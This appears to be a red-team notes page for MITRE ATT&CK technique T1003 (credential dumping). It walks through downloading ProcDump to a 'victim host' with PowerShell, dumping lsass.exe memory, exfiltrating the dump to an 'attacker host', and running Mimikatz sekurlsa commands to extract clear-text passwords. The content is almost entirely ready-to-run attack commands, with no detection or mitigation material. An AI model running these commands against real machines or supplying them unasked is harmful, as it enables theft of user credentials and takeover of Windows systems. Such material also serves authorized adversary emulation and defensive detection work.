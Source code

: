 # Credential Dumping

---
* **ID**: T1003
* **Source**: <https://attack.mitre.org/techniques/T1003/>
---

# Details

## ProcDump and Mimikatz
* Download `ProcDump` to victim host:
```
powershell Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Procdump.zip" -OutFile %ALLUSERSPROFILE%\Procdump.zip
```
* Decompress `Procdump.zip` on victim host
* Dump process memory of lsass.exe (dump using a clone) on victim host:
```
%ALLUSERSPROFILE%\procdump.exe -accepteula -ma lsass.exe lsass.dmp -r
```
* Exfiltrate the dump file `lsass.dmp` to attacker host
* Run Mimikatz (x64/mimikatz.exe) on attacker host to grab clear-text passwords:
  * Run [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20190512/mimikatz_trunk.zip)
  * Type `sekurlsa::Minidump lsass.dmp`
  * Type `sekurlsa::logonPasswords`

# References

* <https://docs.microsoft.com/en-us/sysinternals/downloads/procdump>
* <https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20190512/mimikatz_trunk.zip>
